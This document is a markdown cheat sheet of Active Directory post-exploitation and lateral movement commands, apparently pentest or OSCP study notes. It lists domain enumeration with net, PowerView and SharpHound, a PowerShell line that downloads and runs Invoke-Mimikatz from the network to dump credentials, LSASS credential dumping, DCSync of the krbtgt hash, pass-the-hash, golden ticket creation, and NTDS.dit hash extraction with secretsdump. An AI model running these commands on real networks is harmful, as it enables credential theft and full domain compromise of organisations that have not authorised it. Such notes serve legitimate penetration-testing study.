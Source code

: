 # Lateral Movement  
## Contents 
- [Lateral Movement](#lateral-movement)
  * [Contents](#contents)
  * [What to Look For](#what-to-look-for)
  * [Quick Commands](#quick-commands)
  * [Post Exploitation Enumeration](#post-exploitation-enumeration)
    + [PowerView](#powerview)
  * [Bloodhound](#bloodhound)
  * [Mimikatz](#mimikatz)
  
## What to Look For 
Post Initial Exploitation  
Enumerate users and groups on the host.     
What privilege level does your user have?       
Is privilege escalation needed?       

## Quick Commands  

    net user
    net user /domain
    net user [username] /domain
    
    net localgroup
    net group /domain
    net group /domain "Domain Admins"  
    
PowerShell Active Directory Module (only on DC by default)

    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare   
    
## Post Exploitation Enumeration      
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   

    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   
    privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS  

    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
Dumping credentials from a minidump   

    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash  

    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
Pass the hash   
    
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
Golden ticket creation and pass the ticket   
    
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   
    
## AD Password Files  
NTSDS.dit (db) and SYSTEM registry hive. Can use built in ntdsutil.exe to backup AD. Then use another tool to extract DC hashes, since NTDS.dit is encrypted and opened exclusively for use by OS (can't be copied).     
Back up AD files:    

    ntdsutil           
    activate instance ntds     
    ifm          #commands will generate backup of data in C:\ntds directory. Crack locally.    
    
Then locally extract NTDS.dit and SYSTEM registry data using Impacket script secretsdump.py  

    $ python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL        
